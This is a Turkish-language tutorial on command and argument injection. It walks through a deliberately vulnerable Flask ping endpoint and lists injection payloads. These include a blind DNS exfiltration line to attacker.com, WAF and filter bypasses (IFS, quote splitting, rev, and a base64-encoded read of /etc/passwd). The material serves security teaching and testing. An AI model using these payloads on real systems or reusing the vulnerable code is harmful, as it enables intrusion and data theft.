 # Command Injection & Argument Injection
Command Injection, web uygulamalarının kullanıcıdan aldığı girdiyi yeterli doğrulama veya filtreleme yapmadan doğrudan işletim sistemi komutuna iletmesi sonucu ortaya çıkan kritik bir güvenlik açığıdır. Bu zafiyet sayesinde saldırgan, uygulamanın çalıştığı işletim sistemi üzerinde uygulamanın yetkileriyle (çoğunlukla www-data, apache, nginx) arbitrary command execution gerçekleştirebilir.

Command Injection genellikle aşağıdaki koşullarda görülür:
- Kullanıcı girdisinin system(), exec(), shell_exec(), os.system() gibi OS komut çalıştırma fonksiyonlarına parametre olarak verilmesi
- Girdi doğrulama ve sanitize mekanizmalarının eksik veya hatalı olması
- İşletim sistemi komutlarının shell üzerinden çağrılması (örn: /bin/sh -c "komut")

Bu zafiyetin istismarı sonucunda saldırgan, dosya sistemi üzerinde okuma/yazma, ağ bağlantıları kurma, hassas verileri sızdırma gibi saldırılar gerçekleştirebilir.

# Command Injection Saldırısının İşleyişi
Aşağıda, Command Injection zafiyetine sahip bir Flask uygulaması örneği bulunmaktadır. Yorum satırları, kodun işleyişini adım adım açıklar. Bu örnek, kullanıcı girdisinin doğrudan işletim sistemi komutuna iletilmesi sonucu ortaya çıkan güvenlik açığını göstermektedir.

```python
from flask import Flask, request
import subprocess

app = Flask(__name__)

@app.route('/ping', methods=['GET'])
def ping():
    ip = request.args.get('ip')  # /ping?ip=127.0.0.1 ile kullanıcı IP gönderir
    command = 'ping -c 1 ' + ip # Ping komutu oluşturuluyor
    # subprocess.run ile komut çalıştırılıyor. shell=True nedeniyle Command Injection riski var
    result = subprocess.run(command, shell=True, capture_output=True, text=True) # ip adresini eklediği ping komutunu çalıştırır
    return f"<pre>{result.stdout}</pre>"  # Çıktı ekrana yazdırılıyor


if __name__=='__main__': 
   app.run(debug=True) 
```

Geliştirici, kodun şu şekilde çalıştırılacağını varsayar:
```url
http://example.com/ping?ip=google.com
```

Ancak bir saldırgan, shell operatörlerini kullanarak kolayca RCE elde edebilir:
```url
http://example.com/ping?ip=google.com;whoami
```

Bu istek çalışacaktır çünkü kullanıcı girdisi üzerinde herhangi bir filtreleme yapılmamaktadır ve komut olduğu gibi çalıştırılmaktadır. Aşağıda kullanılabilecek bazı parametre örnekleri bulunmaktadır:
```bash
; whoami
& whoami &
&& whoami
| whoami
`whoami`
$(whoami)
|| whoami
\n whoami
```

## Blind Command Injection
Bazı uygulamalarda çıktıyı göremezsiniz. Bu durumda zaman tabanlı veya dışa veri sızdırma yöntemleri kullanılır. Örnekler:
- Zaman tabanlı:
```url
http://example.com/ping?ip=127.0.0.1; sleep 5
```
Yanıtın gecikmesi zafiyeti doğrular.

- DNS/HTTP exfiltration:
```url
http://example.com/ping?ip=127.0.0.1; nslookup $(whoami).attacker.com
```

Sistem bilgisi saldırgan sunucusuna gönderilir.

# Command Injection’da Filtre Bypass Teknikleri
Command Injection testlerinde bazen uygulamalar belirli karakterleri veya komutları filtreler. Bu durumda klasik payload’lar çalışmaz. İşte farklı bypass teknikleri ve mantıkları:
## {IFS} (Internal Field Separator)
- Ne işe yarar: Boşluk karakterleri filtrelendiğinde kullanılabilir.
- Mantık: {IFS} POSIX/Linux ortamlarında boşluk yerine geçer. Regex veya whitelist filtrelerini atlatmak için idealdir.
Örnek:
```bash
ping${IFS}-c${IFS}1${IFS}127.0.0.1
```

Burada boşluk yerine ${IFS} kullanıldı, komut hâlâ çalışır.

## Karakter ve Substring Manipülasyonları
Bazı filtreler ;, / veya belirli karakterleri engeller. Karakterleri substring veya array manipülasyonu ile bypass edebiliriz.

Örnekler:
- Linux / karakteri:
```bash
echo ${PATH:0:1}   # PATH değişkeninin ilk karakteri
```

- ; karakteri (Linux):
```bash
echo ${LS_COLORS:10:1}
```
3. Blacklist Komutları Bypasslamak
- Mantık: Filtre belirli kelimeleri engelliyorsa, stringi parçalayıp yeniden birleştirebiliriz.

Linux Örnekleri:
```bash
w'h'o'am'i
w"h"o"am"i
who$@ami
(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi"; printf %s "${a,,}")
```

## rev Komutu
- Mantık: Filtre belirli komut kelimelerini engelliyorsa, kelimeyi ters yazıp rev ile düzeltebiliriz.

Örnek:
```bash
$(rev<<<'imaohw')
```

'imaohw' → ters yazılmış whoami, rev ile shell’de düzeltip çalıştırılır.

## Base64 Encoding
- Mantık: Payload’ı Base64’e encode edip shell içinde decode ederek çalıştırmak, filtreleri veya WAF’ları atlatır.

Örnek:
```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dk==)
```

"Y2F0IC9ldGMvcGFzc3dk==" → cat /etc/passwd komutunu temsil eder. Filtre doğrudan komutu göremez.


